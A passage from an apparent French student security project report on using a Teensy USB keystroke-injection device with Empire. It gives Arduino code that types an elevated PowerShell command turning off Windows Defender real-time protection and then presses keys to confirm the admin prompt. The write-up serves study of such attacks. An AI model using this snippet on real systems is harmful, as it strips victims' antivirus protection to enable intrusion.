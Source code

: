 \includegraphics[scale=0.48]{images/SEN_Projet_Image09.png}

\subsubsection{Bypass Winodws Defender}

Dans l'exemple précédent, si l'ordinateur était equipé de Windows Defender, le payload était bloqué, nous allons donc
devoir désactiver Windows Defender avec le Teensy.

Pour ce faire il faut éditer le script Arduino produit par “Empire” et ajoutez ces quelques lignes:

\begin{lstlisting}{language=c}
void sendKey(uint8_t keyin){
  clearKeys();
  Keyboard.set_key1(keyin);
  Keyboard.send_now();
  clearKeys();
  delay(200);
}
\end{lstlisting}

La fonction "sendKey()" vient de ce site: \url{https://www.securitysift.com/fun-with-teensy/}, j'ai eu quelques problèmes avec les différences de délai entre
ma VM Windows et ma machine local, j'ai donc décider d'utiliser cette fonction afin de régler ces problèmes.

Elle permet simplement d'envoyer des frappes clavier, mais elle réinitialise à chaque fois l'état des touches de contrôle (CAPS LOCK par exemple).

\begin{lstlisting}{language=c}
Keyboard.print("powershell -Command \"Start-Process PowerShell -ArgumentList '-Command Set-MpPreference -DisableRealtimeMonitoring $true' -Verb RunAs\"");
sendKey(KEY_ENTER);
sendKey(KEY_LEFT);
sendKey(KEY_LEFT);
sendKey(KEY_ENTER);
\end{lstlisting}

